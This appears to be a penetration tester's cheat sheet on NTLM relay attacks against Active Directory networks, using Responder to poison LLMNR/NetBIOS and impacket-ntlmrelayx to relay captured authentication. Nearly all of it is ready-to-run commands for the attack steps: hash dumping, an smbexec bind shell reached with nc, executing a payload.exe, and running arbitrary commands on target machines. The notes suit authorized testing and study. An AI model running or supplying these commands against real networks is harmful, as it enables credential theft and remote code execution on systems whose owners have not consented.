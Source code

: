 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - SMB
  - AD
---
```

[https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)

Relay captures hashes to target machine for various types of access.
- Only works if SMB signing is disabled or "not required"
- Relayed creds MUST be admin on the machine
## Responder + ntlmrelayx
---

Edit responder conf:
```bash
sudo nano /etc/responder/Responder.conf
SMB = On ---> Off
HTTP = on ---> Off
```
Make targets list
```bash
echo "<TargetIP>" > targets.txt
```
Run responder
```bash
sudo responder -I eth0 -wv
```
Start ntlmrelayx with any of these options

**Dump hashes**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
**Get semi-interactive smbexec bind shell** (`nc localhost 11000`)
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
**Execute payload**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -e payload.exe
```
**Execute Command**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'whoami'
```
Wait for auth attempt (or coerce auth attempt)
